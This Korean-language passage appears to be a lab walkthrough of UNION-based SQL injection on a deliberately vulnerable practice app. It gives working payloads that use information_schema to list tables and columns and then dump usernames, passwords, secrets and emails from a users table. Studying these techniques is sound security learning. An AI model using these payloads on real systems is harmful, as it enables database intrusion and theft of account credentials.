 information_schema 에는 여러가지 정보가 저장되어 있는데 그 중, 테이블의 이름, 칼럼명 등을 이용하면 계정정보, 비밀번호, 메일 등의 정보를 알아낼 수 있다.![WindowsTerminal_GDaud6c5L6](https://user-images.githubusercontent.com/79683414/134791408-e4040100-10f9-4992-ab33-d4807b0892ae.png)

> __Information_schema table reference__
>
> https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html

<br>

<br>

information_schema.tables 에는 모든 테이블들의 이름이 저장된 "table_name" 칼럼이 있다.

`0' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables#`

![chrome_lXKA7Ckbwx](https://user-images.githubusercontent.com/79683414/134791485-70dca5d0-cc50-4276-870d-1aad9827c010.png)

<br>

<br>

이렇게 모든 테이블의 이름이 출력되는데, 계정 정보가 저장되어 있는 user 테이블을 확인해 보자.

information_schema.columns 에는 모든 테이블의 column 명이 저장된 column_name 칼럼이 있다.

`0' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='users'#`

![chrome_qDiDoal6g5](https://user-images.githubusercontent.com/79683414/134791580-d317428b-118e-4510-a1c1-b704820f05c5.png)



<br>

<br>

이렇게 user 테이블의 칼럼 정보를 획득했다.

다음은 원하는 정보를 출력해보자.

`0' UNION SELECT 1,concat(id,login),password,secret,email,activation_code,7 FROM users #`

![chrome_3PES9myt7j](https://user-images.githubusercontent.com/79683414/134791632-aa999466-cb17-43a4-934a-a7cab1666d98.png)

<br>

<br>

UNION 과 Information_schema 를 적절히 활용하면 원하는 정보를 획득 할 수 있다.

<br>

<br>

## medium,high

_sqli_1.php_

![Code_4gewNYMxPp](https://user-images.githubusercontent.com/79683414/135019163-81a73b95-4673-4cd6-808e-368cff48e36f.png)

<br>
